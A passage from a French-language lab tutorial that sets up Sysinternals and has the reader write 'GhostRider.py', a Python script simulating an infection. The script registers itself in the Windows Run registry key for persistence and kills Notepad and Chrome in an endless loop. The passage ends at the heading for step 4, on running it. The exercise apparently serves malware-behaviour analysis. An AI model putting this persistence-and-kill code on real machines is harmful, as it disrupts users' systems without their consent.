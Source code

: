 3. **Téléchargement des outils Sysinternals :**
   - Accédez au site officiel de [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite).
   - Téléchargez l'ensemble des outils Sysinternals sous forme d'archive ZIP.
   - **Décompression :** Décompressez le fichier ZIP dans un dossier sur le bureau ou dans un répertoire facile d'accès.

---

# ÉTAPE 3 : Création du Script Python Simulant une Infection

1. **Ouvrir un éditeur de texte :**
   - **Suggestion :** Utilisez Notepad++, Visual Studio Code, ou tout autre éditeur de texte de votre choix.

2. **Copier le code suivant :**
   - Copiez le code Python ci-dessous dans votre éditeur de texte :
   
   ```python
   import subprocess
   import sys
   import time
   import winreg as reg  # Module pour manipuler le registre Windows

   def add_to_startup(file_path):
       key = reg.HKEY_CURRENT_USER
       sub_key = r"Software\Microsoft\Windows\CurrentVersion\Run"
       open_key = reg.OpenKey(key, sub_key, 0, reg.KEY_SET_VALUE)
       reg.SetValueEx(open_key, "GhostRider", 0, reg.REG_SZ, file_path)
       reg.CloseKey(open_key)

   def infinite_kill_tasks():
       while True:
           print("Processus 5 : Fermeture en boucle des applications courantes...")
           if sys.platform == "win32":
               subprocess.call(["taskkill", "/F", "/IM", "notepad.exe"])
               subprocess.call(["taskkill", "/F", "/IM", "chrome.exe"])
           time.sleep(5)

   if __name__ == "__main__":
       script_path = sys.argv[0]
       add_to_startup(script_path)
       infinite_kill_tasks()
   ```

3. **Enregistrer le fichier :**
   - Enregistrez le fichier sous le nom `GhostRider.py` dans un répertoire facile à retrouver, par exemple dans le dossier *Documents*.

---

# ÉTAPE 4 : Exécution et Vérification du Comportement de Notepad
